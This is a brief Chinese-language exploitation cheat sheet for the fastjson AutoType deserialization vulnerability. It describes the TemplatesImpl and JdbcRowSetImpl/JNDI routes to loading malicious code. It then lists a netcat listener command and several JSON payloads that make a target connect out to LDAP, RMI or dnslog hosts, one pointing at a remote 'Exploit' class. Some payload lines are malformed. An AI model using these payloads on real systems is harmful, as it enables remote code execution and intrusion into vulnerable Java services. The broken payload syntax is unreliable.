 *漏洞核心*：
使用fastjson的AutoType机制去反序列我们精心挑选的恶意类，这些恶意类在反序列时会伴随着加载恶意代码，获取通过请求
外部接口的形式加载恶意代码。

两种利用方式

- 通过 `TemplatesImpl` 类直接指定恶意代码
- 通过 `JdbcRowSetImpl` 获取rmi服务上的恶意代码，恶意代码为JNDI中`Reference`类指定的外部类。

tips:

测试是否外联

1. 开启一个监听端口的服务 `nc -lvvp 9632`
2. 尝试连接
    - 使用ladp
    ``` json
    {"name":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"x":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://localhost:7777/Exploit","autoCommit":true}}}
    ```

    - 使用dnslog回显
    ```text
    {"handsome":{"@type":"Lcom.sun.rowset.JdbcRowSetImpl;","dataSourceName":"rmi://xxx.dnslog.cn/aaa","autoCommit":true}}
    {"a":{"@type":"java.net.Inet4Address","val":"xxx.dnslog.cn"}}
    {"@type":"java.net.Inet4Address","val":"xxx.dnslog.cn"}
    {"@type":"java.net.Inet6Address","val":"xxx.dnslog.cn"}
    {"@type":"java.net.InetSocketAddress"{"address":,"val":"xxx.dnslog.cn"}}
    {"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"xxx.dnslog.cn"}}""}
    {{"@type":"java.net.URL","val":"xxx.dnslog.cn"}:"aaa"}
    Set[{"@type":"java.net.URL","val":"xxx.dnslog.cn"} {{"@type":"java.net.URL","val":"xxx.dnslog.cn"}:0
    
    ```
    
